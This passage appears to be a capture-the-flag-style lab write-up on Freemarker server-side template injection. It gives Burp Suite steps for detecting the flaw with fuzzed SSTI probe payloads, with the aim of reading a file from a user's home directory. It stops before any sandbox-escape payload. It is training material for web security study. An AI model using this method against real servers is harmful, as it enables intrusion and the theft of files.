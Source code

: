 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602003900.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602011141.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602011308.png)

### Server-side template injection in a sandboxed environment
```bash

# This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file my_password.txt from Carlos's home directory. Then submit the contents of the file.

# You can log in to your own account using the following credentials:

# content-manager:C0nt3ntM4n4g3r

Login as content-manager:C0nt3ntM4n4g3r
Go to: "Home"
Click "View post"
Click "Edit template"
Input:

[[7*7]]

Go to: HTTP history
Find:

POST /product/template?productId=1 HTTP/1.1

Send to Repeater
Send to Intruder
Go to: Intruder
Payload Positions:

csrf=knmUqFqC2GnhjKr2oOeS9Cn3UpStwyp3&template=§%7B%7B7*7%7D%7D§&template-action=preview

Go to:

https://github.com/payloadbox/ssti-payloads

Copy the payloads and adjust the relevant multiplication expressions to represent 7*7
Go to: Intruder -> Payloads -> Payload Options[Simple list]
Load the SSTI enumeration file
Go to: Options
Grep - Match
Clear
Add '49'
Start attack
Note the '49' response for payload:

$[7*7]
#[7*7]
#[ 7 * 7 ]

Go to:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Ctrl+f:

```